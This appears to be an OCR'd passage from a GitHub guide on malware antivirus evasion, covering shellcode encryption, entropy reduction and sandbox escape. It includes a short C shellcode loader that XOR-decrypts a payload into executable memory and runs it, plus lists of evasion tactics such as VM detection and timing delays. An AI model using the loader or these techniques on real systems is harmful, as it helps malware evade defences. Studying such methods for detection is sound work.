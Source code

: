 ### 18. Shellcode Encryption

**Definition:** Technique of encrypting shellcode payloads to evade signature-based detection and enable runtime decryption.

#### Encryption Methods:
- **AES Encryption:** Strong symmetric encryption for payload protection
- **XOR Encoding:** Simple but effective obfuscation method
- **Custom Encryption:** Application-specific encryption algorithms
- **Multi-Stage Decryption:** Multiple decryption layers for enhanced evasion

#### Implementation Approach:
```c
// Example shellcode encryption concept (educational)
void decrypt_and_execute_shellcode(BYTE* encrypted_shellcode, DWORD size, BYTE* key) {
    // Allocate executable memory
    LPVOID exec_mem = VirtualAlloc(0, size, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
    
    // Decrypt shellcode
    for(DWORD i = 0; i < size; i++) {
        ((BYTE*)exec_mem)[i] = encrypted_shellcode[i] ^ key[i % 16]; // Simple XOR decryption
    }
    
    // Execute decrypted shellcode
    ((void(*)())exec_mem)();
}
```

---

## Entropy and Detection Evasion

### 19. Reducing Entropy

**Definition:** Technique to reduce the randomness/entropy of malicious files to evade entropy-based detection systems.

#### Entropy Reduction Methods:
- **Padding with Common Data:** Add frequent byte patterns to reduce overall entropy
- **String Dilution:** Embed normal text strings within malicious code
- **Template Usage:** Use existing low-entropy templates for malicious files
- **Compression Avoidance:** Avoid compression that increases entropy

### 20. Escaping the (local) AV Sandbox

**Definition:** Techniques to detect and evade local antivirus sandbox environments during file analysis.

#### Sandbox Detection:
- **Environment Checks:** Detect VM artifacts and sandbox indicators
- **Timing Attacks:** Use delays to exceed sandbox analysis time
- **User Interaction Requirements:** Require mouse clicks or keyboard input
- **Anti-Analysis Techniques:** Check for analysis tools and debuggers
